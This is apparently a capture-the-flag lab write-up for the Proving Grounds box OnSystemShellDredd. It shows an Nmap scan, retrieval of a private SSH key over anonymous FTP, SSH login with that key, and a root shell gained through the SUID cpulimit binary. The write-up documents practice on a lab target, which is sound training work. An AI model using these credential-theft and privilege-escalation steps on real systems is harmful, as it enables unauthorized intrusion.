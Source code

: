 # PG Play - OnSystemShellDredd

#### Ip: 192.168.235.130
#### Name: OnSystemShellDredd
#### Difficulty: Easy
#### Community Rating: Easy

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `-sC` and `-sV` flags to use basic scripts and to enumerate versions.

```text
┌──(ryan㉿kali)-[~/PG/OnSystemShellDredd]
└─$ sudo nmap -p-  --min-rate 10000 192.168.235.130 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-07 15:07 CDT
Nmap scan report for 192.168.235.130
Host is up (0.072s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.45.177
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 592d210c2faf9d5a7b3ea427aa378908 (RSA)
|   256 5926da443b97d230b19b9b02748b8758 (ECDSA)
|_  256 8ead104fe33e652840cb5bbf1d247f17 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.84 seconds
```

Interesting, only FTP and SSH are open on TCP ports. 

Looking at the scan results we see that FTP has anonymous access enabled. Lets start there.

```text
┌──(ryan㉿kali)-[~/PG/OnSystemShellDredd]
└─$ ftp 192.168.235.130
Connected to 192.168.235.130.
220 (vsFTPd 3.0.3)
Name (192.168.235.130:ryan): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||48916|)
150 Here comes the directory listing.
226 Directory send OK.
ftp> ls -la
229 Entering Extended Passive Mode (|||54981|)
150 Here comes the directory listing.
drwxr-xr-x    3 0        115          4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .hannah
226 Directory send OK.
ftp> cd .hannah
250 Directory successfully changed.
ftp> ls -la
229 Entering Extended Passive Mode (|||56908|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
-rwxr-xr-x    1 0        0            1823 Aug 06  2020 id_rsa
226 Directory send OK.
ftp> get id_rsa
local: id_rsa remote: id_rsa
229 Entering Extended Passive Mode (|||45575|)
150 Opening BINARY mode data connection for id_rsa (1823 bytes).
100% |********************************************************************************|  1823        6.58 MiB/s    00:00 ETA
226 Transfer complete.
1823 bytes received in 00:00 (26.05 KiB/s)
ftp> bye
221 Goodbye.
```

Wow, looks like we have an SSH key for user hannah.

### Exploitation

Nice, we were able to use this key to get on the target:

```text
┌──(ryan㉿kali)-[~/PG/OnSystemShellDredd]
└─$ chmod 600 id_rsa
                                                                                                                                                                                                                                                      
┌──(ryan㉿kali)-[~/PG/OnSystemShellDredd]
└─$ ssh -i id_rsa hannah@192.168.235.130 -p 61000
The authenticity of host '[192.168.235.130]:61000 ([192.168.235.130]:61000)' can't be established.
ED25519 key fingerprint is SHA256:6tx3ODoidGvtQl+T9gJivu3xnndw7PXje1XLn+lZuSM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.235.130]:61000' (ED25519) to the list of known hosts.
Linux ShellDredd 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
hannah@ShellDredd:~$ hostname
ShellDredd
```

We can now grab the local.txt flag:

user_flag.png

### Privilege Escalation

Lets transfer over LinPEAS to help with enumerating a privilege escalation vector:

transfer.png

LinPeas finds a couple of programs with the SUID bit set we may be able to use to escalate privlieges:

suid.png

Lets head over to https://gtfobins.github.io/gtfobins/cpulimit/ to get the command we'll need to exploit this:

gtfo.png

We can exploit this by running:

```text
hannah@ShellDredd:/tmp$ cd /usr/bin
hannah@ShellDredd:/usr/bin$ ./cpulimit -l 100 -f -- /bin/sh -p
Process 13092 detected
# whoami
root
# id
uid=1000(hannah) gid=1000(hannah) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),1000(hannah)
```

And can grab the proof.txt flag:

root_flag.png

Thanks for following along!

-Ryan

-----------------------------------------------